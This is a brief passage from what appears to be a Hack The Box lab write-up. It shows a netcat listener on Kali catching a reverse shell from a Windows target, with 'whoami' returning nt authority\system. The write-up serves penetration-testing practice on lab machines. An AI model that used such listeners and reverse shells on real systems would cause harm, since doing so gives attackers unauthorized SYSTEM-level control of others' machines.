 Listener on Kali

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 54183
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell!